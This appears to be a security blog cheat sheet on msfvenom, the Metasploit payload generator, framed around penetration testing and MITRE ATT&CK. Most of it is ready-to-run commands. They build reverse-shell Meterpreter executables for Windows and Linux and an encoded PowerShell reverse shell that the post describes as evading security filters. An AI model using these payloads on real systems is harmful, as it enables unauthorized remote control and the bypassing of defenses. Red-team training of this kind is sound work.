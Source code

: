 ![](https://substackcdn.com/image/fetch/w_1456,c_limit,f_auto,q_auto:good,fl_progressive:steep/https%3A%2F%2Fsubstack-post-media.s3.amazonaws.com%2Fpublic%2Fimages%2Fa6829a64-d268-45ba-88f7-0cf9237a74d5_913x74.png)

**msfvenom** is a versatile payload generator and encoder tool within the Metasploit framework, crucial for crafting malicious payloads in penetration testing and red teaming exercises. It combines the capabilities of **msfpayload** and **msfencode** into one streamlined tool, allowing security professionals to create custom payloads compatible with various target platforms, including Windows, Linux, Android, and more. By leveraging msfvenom, attackers can generate payloads that can exploit vulnerabilities, elevate privileges, or establish command and control channels, mimicking real-world attack scenarios. Its compatibility with Metasploit’s **exploit** modules makes it a powerful tool for tailoring attacks according to specific threats.

In the context of MITRE ATT&CK techniques, msfvenom plays a critical role in executing several tactics, particularly in **Execution (T1059)**, **Persistence (T1547)**, and **Defense Evasion (T1027)**. For instance, adversaries can generate encoded or obfuscated payloads to bypass security defenses like antivirus solutions, effectively simulating techniques like obfuscation and binary padding. Additionally, msfvenom is used to deliver remote access tools, which aligns with MITRE ATT&CK's **Remote Access Software (T1219)** technique, allowing for comprehensive assessments of system vulnerabilities.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > shell.exe
```

This command generates a reverse TCP Meterpreter payload for 32-bit Windows. Once executed on the target system, it initiates a reverse connection to the attacker's machine.

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw > shell.ps1
```

This payload utilizes PowerShell to establish a reverse shell, encoded to bypass basic security filters, making it a stealthy option for post-exploitation on Windows targets.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > shell.exe
```

A 64-bit version of the Meterpreter payload, used when targeting modern Windows operating systems to ensure compatibility and control over the victim machine.

This payload is commonly used to test shellcode execution. It generates shellcode that displays a MessageBox on a Windows system, providing a visual confirmation that the code is executed.

```
msfvenom -p windows/messagebox TEXT="Hello" TITLE="Test" -f c
```

- The `-p windows/messagebox` payload creates a Windows message box that displays "Hello" with the title "Test."
- This type of shellcode is used to ensure the shellcode execution mechanism is working, often as part of the testing phase in exploit development.
- The `-f c` option outputs the shellcode in C format, which can be compiled and injected into a vulnerable process for testing.

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f elf > shell.elf
```
